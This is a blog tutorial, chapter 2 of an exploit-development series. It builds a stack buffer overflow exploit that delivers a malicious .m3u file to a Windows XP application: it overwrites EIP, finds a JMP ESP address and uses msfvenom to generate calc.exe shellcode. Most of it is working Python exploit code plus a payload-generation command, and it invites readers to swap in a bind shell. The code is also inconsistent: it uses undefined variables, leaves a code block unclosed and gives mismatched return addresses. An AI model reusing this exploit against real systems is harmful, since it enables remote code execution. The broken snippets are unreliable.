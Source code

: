 ```yaml
---
layout: post
title:  "Reverse Engineering and Exploit Development Made Easy - Chapter 2"
date:   2019-07-08
categories: Exploit Dev
tags: [RE, Reverse Enginering, Exploit Development]
author: 4p0cryph0n
---
```


### Reverse Engineering and Exploit Development Made Easy - Chapter 2 ###

**:****~****# ./chapt2**

Welcome back! In the previous chapter, we focused on the basics of reverse engineering, and gained control of the EIP register using our first binary. Now, let's dive into the fun stuff: shellcoding!

So, two things need to be done now:

1) Place shellcode in ESP (Basically an encoded payload. For example, bind shell or cmd exec.)

2) Replace EIP with a JMP instruction that points to our shellcode in ESP. A JMP instruction will jump to the shellcode and execute it.

First, in order to make sure that all of our shellcode is going into ESP, let's send a recognisable pattern. This way, we will be able to notice if some of our shellcode is getting cut, which can render our exploit unusable. I'll be using the pattern from the Corelan website itself:

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK"
buf += "5ABCDEFGHIJK6ABCDEFGHIJK"
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
junk2 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + buf + junk2
print(len(string))
f.write(string)
f.close()
```

Let's save the file and put it through the debugger.

![image1](.\images\2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2\image1.png)

So the highlighted value is what is in ESP. As you can see, our pattern is missing 4 bytes (1ABC), which means that the shellcode that's going in ESP is incomplete. This has a simple solution, all we have to do is add 4 bytes before our shellcode. I'll name this variable preesp.

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
preesp = "XXXX"
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK"
buf += "5ABCDEFGHIJK6ABCDEFGHIJK"
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
junk2 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + preesp + buf + junk2
print(len(string))
f.write(string)
f.close()
```

Let's put this through the debugger :)

![image2](/_posts/images/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image2.png)

Now, let's look for a JMP ESP instruction. This instruction should belong to one of the application's DLL. Immunity will help us with this hunt :)

Run the program but do nothing, and right click anywhere in the CPU window and click on Search for > All commands in all modules. Like so:

Alright! Our test shellcode is going in just fine. Now, let's look for a jump ESP instruction.

Right-click anywhere in the CPU window, and search for all commands in all modules. Like so:

![image3](/_posts/images/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image3.png)

Enter jmp esp in the popup box and click find.

![image4](/_posts/images/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image4.png)

This instruction looks good. Copy the address, and then click on View in the toolbar, and click CPU to go back to the CPU window.

![image5](/_posts/images/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image4.png)

Now, replace the 4 Bs in your code with this address. But remember one thing, this highlighted address is in the big Endian format. Computers can't read the address in in our code if we send it in big Endian. We need to change it into little Endian, which is the reverse of this (i.e. 3AF2D201). This is how we will include that address in our code:

```python
eip = "\x34\xF2\xD2\x01"

Now, let's generate some shellcode! I'm going to generate shellcode that will open the Calculator application (calc.exe) in Windows XP, just as a test. If this works, we can put a bind shell one in. For this, we will be using Metasploit.

`msfvenom -a x86 --platform windows -p windows/exec CMD="calc" --encoder x86/alpha_upper -f py`

The '--encoder' flag selects an encoder, in our case it's x86/alpha_upper. The '-f' flag tells it to print the payload for a python file. Now, let's add some NOPS (No operations, 90) and paste this in our code and watch the magic!

Your final code should look something like this:

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "\x3A\xF2\xD2\x01"
preesp = "XXXX"
nops = "\x90"*25
buf = ""
buf += "\xd9\xe9\xd9\x74\x24\xf4\xbb\xcb\x65\x09\xdf\ #..... and so on
buf3 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + preesp + nops + buf + buf3
print(len(string))
f.write(string)
f.close()
```

![image6](/_posts/images/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image6.png)

Congratulations on your first successful exploit! Now, I want you to try and replace the calculator shellcode with a windows bind shell shellcode and get a shell. In the next chapter, we will cover more ways in which we can execute our shellcode. We will see the other instructions that can replace our JMP ESP instruction.

